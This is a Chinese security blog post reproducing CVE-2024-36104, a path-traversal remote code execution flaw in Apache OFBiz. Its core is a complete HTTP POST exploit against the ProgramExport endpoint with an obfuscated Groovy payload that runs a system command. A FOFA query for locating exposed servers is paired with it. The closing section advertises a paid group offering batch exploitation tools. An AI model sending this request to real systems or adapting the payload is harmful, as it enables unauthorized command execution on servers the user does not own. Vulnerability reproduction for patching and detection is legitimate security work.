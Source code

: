 #  CVE-2024-36104 Apache OFBiz路径遍历RCE漏洞复现(附POC)   
原创 CatalyzeSec  CatalyzeSec   2024-06-05 19:59  
  
漏洞描述  
  
Apache_OFBiz是一套基于通用架构的企业应用程序，使用通用数据，逻辑和流程组件。应用程序的松散耦合特性使这些组件易于理解，扩展和定制。  
  
由于对HTTP请求URL中的特殊字符（如；、%2e）限制不当，威胁者可构造恶意请求利用该漏洞，成功利用可能导致远程代码执行。  
# 影响版本  
  
Apache OFBiz < 18.12.14  
# FOFA  
  
app="Apache_OFBiz"  
# POC  
```
POST /webtools/control/forgotPassword/%2e/%2e/ProgramExport HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u0069\u0064\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ynfe1N59rShr9pprriaKtL6kgficZwwPZSkt1lcZ7sicia7RR3QfNmiaMbb6xyElQGiaDD9EV4EDNqRrlQQ/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ynfe1N59rShr9pprriaKtL6kXZpBS7hZicEibic4S8o7fLtOoadNw00FskSe3iaWMnCcMOmewLiaYoxDvlQ/640?wx_fmt=png&from=appmsg "")  
# nuclei运行结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ynfe1N59rShr9pprriaKtL6kTBia1yq6BpXdSs4t3sD66FwlH283ZT09LKdZaHYm1egVb8rIg8Y7pKQ/640?wx_fmt=other&from=appmsg "")  
  
**nuclei-poc已上传到知识星球**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ynfe1N59rShr9pprriaKtL6km3SaUxodTpYl9SXPBEiaFibZFaDa1WiaqZks2Q5DVC1nSkaMQIT1RZvWg/640?wx_fmt=other&from=appmsg "")  
  
**知识星球**  
  
高质量安全知识星球社区，致力于漏洞挖掘，渗透技巧，安全资料，星球承诺会持续更新0/1/NDay及对应的批量利用工具，团队内部漏洞库，内外网攻防技巧，你所需要的各类安全工具和资料以及团队师傅们最新的学习研究成果。分享行业内最新动态，解答交流各类技术问题。  
  
涉及方向包括Web渗透、免杀绕过、红蓝攻防、代码审计、应急响应、安全培训、CTF、小白入门、职业规划和疑难解答。**CatalyzeSec**  
，安全技术水平的催化者，星球针对成员的技术问题，快速提供思考方向及解决方案，并为星友提供多种方向的学习资料、安全工具、POC&EXP以及各种学习笔记等，以引导者和催化剂的方式助力安全技术水平的提升。  
  
我们是一个快速成长的team，团队的发展方向与每一位星友的学习方向密切相关，加入我们，一起成为更好的自己！  
  
PS：随着星球内知识的积累，人员的增加，  
星球价格也会随之增加，前一百位加入我们的师傅可享受99元朋友价！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ynfe1N59rShr9pprriaKtL6k1KDMcj11ECY4iaOibVH2OMPsOWiaxkHMcqS6WUvhZbPugC425odZyLVsA/640?wx_fmt=other&from=appmsg "")  
  
**团队内部独家知识库**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ynfe1N59rShr9pprriaKtL6kwAa5wt3TEDtT7vSuIIOrpFtKvHquo1zK5fD4MbxMlDbnorjicw5jiamw/640?wx_fmt=other&from=appmsg "")  
  
  
